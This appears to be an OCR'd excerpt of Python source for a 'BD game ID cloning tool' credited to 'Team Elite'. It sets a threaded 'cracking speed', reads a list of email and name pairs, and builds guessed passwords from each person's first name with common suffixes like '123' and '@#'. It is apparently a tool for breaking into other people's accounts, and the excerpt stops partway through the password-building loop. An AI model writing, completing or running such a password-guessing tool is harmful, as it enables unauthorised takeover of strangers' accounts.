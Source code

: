     os.system('clear')
    print(Panel.fit(logo, subtitle=">[reverse violet]BD GAME ID CLONEING TOOL[/reverse violet]<"))
    print(Panel.fit("[bold green]Developer     —>>     Team Elite"))
    print('')
    print("[reverse white]Cracking Speed[/reverse white]\n")
    print("Example [30-120] 50, 70, 90, 100")
    print("[bold violet]—"*35)
    try:
        speed=int(input("choice Speed> "))
        if speed < 130:
            pass
        else:speed=120
    except:
        main()
    
    
    
    os.system('clear')
    print(Panel.fit(logo, subtitle=">[reverse violet]BD GAME ID CLONEING TOOL[/reverse violet]<"))
    print(Panel.fit("[bold green]Developer     —>>     Team Elite"))
    
    mail(emad, 10000)
    
    print(f" Crack Limit 10000 > Method {md} ")
    print("[bold violet]—"*35)
    with ThreadPool(max_workers=speed) as pool:
        for ex in emad:
            Gmail=ex.split("|")[0].lower()
            Name=ex.split("|")[1]
            psslist=[]
            First=Name.split(" ")[0]
            Last=Name.split(" ")[1]
            
            if len(First) >2:
                psslist.append(First.lower()+"123")
                psslist.append(First+"123")
            else:pass
            if len(First) >3:
                psslist.append(First+"12")
                psslist.append(First+"@@")
                psslist.append(First+"@#")
                psslist.append(First.lower()+"12")
                psslist.append(First.lower()+"@@")
                psslist.append(First.lower()+"@#")
            else:pass
            
            if len(First) >1:
                psslist.append(First+"@123")
                psslist.append(First+"1234")
                #psslist.append(First+"12345")
                #psslist.append(First+"@1234")
                psslist.append(First.lower()+"1234")
                psslist.append(First.lower()+"12345")
                psslist.append(First.lower()+"@123")
                psslist.append(First.lower()+"@1234")
            else:pass
            